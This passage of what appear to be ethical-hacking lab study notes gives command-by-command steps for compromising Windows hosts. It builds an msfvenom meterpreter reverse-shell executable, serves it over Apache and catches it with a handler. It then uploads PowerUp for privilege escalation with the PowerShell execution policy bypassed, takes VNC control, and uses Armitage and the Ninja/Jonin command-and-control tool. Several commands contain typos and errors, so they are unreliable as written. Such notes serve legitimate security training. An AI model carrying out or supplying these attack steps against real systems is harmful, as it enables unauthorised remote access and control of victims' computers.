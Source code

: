 **Steps**:
- Create msfvenom payload
  - `msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x64 LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.ex`
- Using apache to transfer the file
  - `mkdir /var/www/html/share`
  - `chmod -R 755 /var/www/html/share`
  - `chmod -R www-data:www-data /var/www/html/share`
  - `service apche2 start`
- Now run msfconsole
  - `msfconsole`
  - `use exploit/multi/handler`
- Set the payload type, port and IP and visit the IP to download the executable. Run it you will get the shell
- You can run the following commands in meterpreter
  - `sysinfo`  //get system information
- Upload file through meterpreter
- The powersploit priv escaltion script./usr/share/windows-resources/powersploit
  - `upload PowerUp.ps1 powerup.ps1`
- Now get shell
  - `shell`
- Now execute the script
  - `powershell -ExecutionPolicy bypass -command ". .//powerup.ps1;invoke-All-Checks"`
- Now exit it and to get a VNC from meterpreter use the following command
  - `run vnc`

[Online - Reverse Shell Generator](https://www.revshells.com/)

#### 1.5 Gain access to a system using armitage

**Steps**:
- GUI based msf
  - `service postgresql start`
- Now run armitage from Applications menu. Run intense scan. and then we can create a payload according to our target
- Once the victim opens the payload, we get the session.

#### 1.6 Gain access to system using Ninja Jonin

**Steps**:
- Ninja is installed on target and Jonin on attacker machine.
  - [GitHub](https://github.com/ErAz7/Ninja)
- We need to edit its config file to change the ip and port.
<img width="646" height="448" alt="image" src="https://github.com/user-attachments/assets/b623ed60-ae2b-4f70-ac26-458f3f80bcd2" />
- Open the Jonin listenere. it will catch the sessions.
  - `list`  //to list all sessions
  - `connect 1` //to connect to session
  - //to get to cmd
    - `change`
    - `cmd`
  - `help` //displays help
